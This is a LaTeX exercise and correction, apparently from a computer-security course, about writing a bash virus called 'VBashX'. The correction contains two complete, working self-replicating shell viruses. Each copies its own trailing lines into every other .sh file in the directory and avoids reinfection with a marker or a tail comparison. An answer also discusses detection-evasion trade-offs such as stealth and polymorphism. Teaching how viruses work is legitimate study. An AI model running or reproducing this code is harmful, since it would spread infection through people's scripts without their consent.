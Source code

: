 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{enumerate}
\item[\textbf{2c)}] \textbf{Test execution strategy:} Explain the principle (without implementing): extract the last lines of the file, execute them with a special argument (e.g., \texttt{--vbx-test}), analyze the output. What are the advantages and disadvantages?

\item[\textbf{2d)}] Fill in a comparative table of the 3 strategies according to the criteria: reliability, stealth, robustness to polymorphism.
\end{enumerate}

\begin{correction}

\textbf{2a)} Virus with marker-based anti-reinfection:
\begin{lstlisting}[title=vbashx\_phase2a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=10
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2b)} Virus with tail-comparison anti-reinfection:
\begin{lstlisting}[title=vbashx\_phase2b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2b ---
VIRUS_SIZE=11
MY_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$0"))
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        TARGET_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$f"))
        if [ "$MY_CODE" != "$TARGET_CODE" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2c)} \textbf{Test execution strategy:} Extract the last \texttt{VIRUS\_SIZE} lines of the target file into a temporary file, execute it with a special argument (e.g., \texttt{./tmp\_test.sh --vbx-test}). If the viral code is present, it detects the argument and returns a specific exit code (e.g., \texttt{exit 42}).

\textit{Advantages:} Non-incriminating (no plaintext signature), works even if the viral code changes form.

\textit{Disadvantages:} More complex to implement, requires executing potentially dangerous code, slower (fork + exec for each tested file).


\end{correction}
\end{exercice}
\end{document}
